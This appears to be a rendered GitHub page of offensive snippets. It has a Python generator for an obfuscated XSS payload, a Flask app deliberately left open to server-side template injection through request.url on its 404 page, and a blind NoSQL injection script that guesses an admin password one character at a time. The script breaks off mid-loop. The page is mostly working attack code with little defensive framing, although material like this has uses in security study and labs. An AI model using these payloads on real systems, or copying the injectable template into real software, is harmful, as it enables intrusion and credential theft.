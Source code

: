 ### ESCAPE ALERT
```
#!/usr/bin/python3

text = "('xss')"

x = [ord(i) for i in "alert"]
result = str(x).strip("[]")

payload = "<script>eval(String.fromCharCode("+result+"))"+text+"</script>"
print(payload)
```

### FLASK APP 
```
#!/usr/bin/python3
#VULNERABLE TO SSTI

from flask import Flask, redirect, render_template_string, render_template, request

app = Flask(__name__)
@app.errorhandler(404)
def page_not_found(e):
    #line12: request.url is loaded dynamically into the template
    #line15: malicious code can be injected and interpreted by the template - SSTI!
    template = '''
    {%%block body %%}
    <div class="center-content error">
        <h1>Page not Found: %s</h1>
    </div>
    {%% endblock %%}
    ''' % (request.url)
    return render_template_string(template), 404

@app.route('/')
def index():
    return render_template('index.html')

if __name__ == '__main__':
    app.run(debug=False,host='0.0.0.0')
```

### MONGODB PAYLOAD
```
#!/usr/bin/python3

import urllib.request
import string

URL = "http://example.com/"

def check(payload):
    url = URL+"/?search=admin'%20%26%26%20this.password.match(/^"+payload+"/)%00"
    #print(url)
    resp = urllib.request.urlopen(url)
    data = resp.read()
    return ">admin<" in str(data)

def createPayload():
    CHARSET = list(string.ascii_lowercase+string.digits+"-")
    key = ""
    while True:
        for c in CHARSET:
```